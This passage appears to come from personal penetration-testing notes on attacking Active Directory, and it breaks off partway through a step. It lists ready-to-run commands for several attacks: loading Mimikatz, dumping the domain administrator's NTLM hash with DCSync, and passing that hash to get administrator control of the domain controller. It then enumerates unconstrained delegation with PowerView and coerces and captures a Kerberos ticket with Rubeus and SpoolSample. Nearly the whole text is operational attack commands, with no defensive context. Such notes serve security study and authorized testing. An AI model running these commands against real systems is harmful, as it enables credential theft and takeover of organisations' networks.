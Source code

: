 ```
Import-Module .\Invoke-Mimikatz.ps1
```

Dump lsa for administrator user:
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:$NETBIOS_DOMAIN_NAME\administrator"'
```

Copy the NTLM hash value.

Pass the hash with mimikatz to escalate to administrator.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:powershell.exe"'
```

```
invoke-command -ComputerName $DNS_COMPUTER_NAME -ScriptBlock{whoami;hostname}
```

You should see you are Administrator of the dc host.
Enter a PSSession on that host:
```
Enter-PSSession -ComputerName $DNS_COMPUTER_NAME
```

#### 85 Unconstrained Delegation

>NEEDS LOCAL ADMIN USER ACCESS

Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

[[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

Enumeration:
```
Get-DomainComputer -Unconstrained
```

```
.\Rubeus.exe monitor /interval:1
```

```
.\SpoolSample.exe $DNS_COMPUTER_NAME $USER.$DNS_DOMAIN_NAME
```

A new ticket will pop up in Rubeus.

Copy the Base64 encoded ticket.  Paste in Notepad++, press CTRL+J to join all the lines together.  CRTL+H > enable Regular express.  Replace the spaces in the document with:

Find what: \s*
Replace with: 
